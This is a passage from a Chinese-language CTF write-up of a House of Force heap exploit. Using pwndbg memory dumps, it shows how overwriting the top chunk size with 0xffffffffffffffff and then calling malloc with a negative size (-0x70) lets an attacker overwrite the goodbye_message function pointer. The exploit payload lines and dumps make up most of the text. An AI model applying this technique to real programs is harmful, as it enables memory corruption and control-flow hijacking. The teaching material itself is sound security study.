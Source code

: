 ```python
0xe800b0:	0x0000000000000000	0x0000000000000000
0xe800c0:	0x0000000000000000	0x0000000000000000
0xe800d0:	0x0000000000000000	0x0000000000000000
0xe800e0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

然后我们编辑刚才创建的堆块（index0）：

```python
content='a'*0x30+'1'*8+p64(0xffffffffffffffff)
edit(0,0x40,content)
```

再看一下堆块的情况：

```python
pwndbg> x/30gx 0xe80000
0xe80000:	0x0000000000000000	0x0000000000000021 #func_start_malloc_chunk
0xe80010:	0x0000000000400896	0x00000000004008b1
    		#hello_message      #goodbye_message
0xe80020:	0x0000000000000000	0x0000000000000041 #chunk0（malloc(0x30)）
0xe80030:	0x6161616161616161	0x6161616161616161
0xe80040:	0x6161616161616161	0x6161616161616161
0xe80050:	0x6161616161616161	0x6161616161616161
0xe80060:	0x3131313131313131	0xffffffffffffffff #top_chunk
0xe80070:	0x0000000000000000	0x0000000000000000
......（省略内容均为空）
0xe800e0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

从上面的内容可以看到，top_chunk的size已经被更改为0xffffffffffffffff，利用它我们就可以控制任意内存的地址。继续向下看paylaod：

```python
offset=-0x60-0x10
create(offset,'bbbb')
```

这个offset怎么来的？

首先要明确目标为修改goodbye_message函数为magic函数。在gdb调试中，goodbye_message函数指针的地址为：0xe80010，现在的top_chunk地址为0xe80060

要想修改地址，应该将 top_chunk 指向0xe80000（heap_base）处，这样当下次再分配chunk时，就可以分配到goodbye_message处的内存了。

---

如何计算？本题是向低地址移动，将上一小节的公式带入到本题中：

malloc_size=0xe80000-0xe80060-0x10=-0x70

因此要malloc(-0x70)，完成此步骤之后堆内存如下图所示：

```python
pwndbg> x/30gx 0xe80000
0xe80000:	0x0000000000000000	0x0000000000000059 #new_top_chunk
0xe80010:	0x0000000000400896	0x00000000004008b1
    		#hello_message      #goodbye_message
0xe80020:	0x0000000000000000	0x0000000000000041 #chunk0（malloc(0x30)）
0xe80030:	0x6161616161616161	0x6161616161616161
0xe80040:	0x6161616161616161	0x6161616161616161
0xe80050:	0x6161616161616161	0x6161616161616161
0xe80060:	0x3131313131313131	0xffffffffffffffa1 #old_top_chunk
0xe80070:	0x0000000000000000	0x0000000000000000
......（省略内容均为空）
0xe800e0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```
